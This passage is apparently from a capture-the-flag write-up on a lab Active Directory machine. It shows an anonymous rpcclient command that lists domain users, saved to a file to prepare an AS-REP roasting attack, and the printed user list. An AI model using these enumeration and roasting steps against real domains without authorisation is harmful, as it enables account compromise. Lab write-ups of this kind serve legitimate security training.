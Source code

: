 ```bash
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```


## shell as svc-alfresco

with a list of valid users of the target machine which is an active directory an attack that can be performed is an [ASPREPRoast attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast), to do this I save the filtered output of the rpcclient command to save only the user string to a dictionary named users.

> ASREPRoast is a security attack that exploits users who lack the **Kerberos pre-authentication required attribute** 
> -hacktricks

```
$ rpcclient 10.10.10.161 -U "" -N -c "enumdomusers" | cut -d ":" -f2|cut -d" " -f1| tr -d "[]"  > users
$ cat users
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```
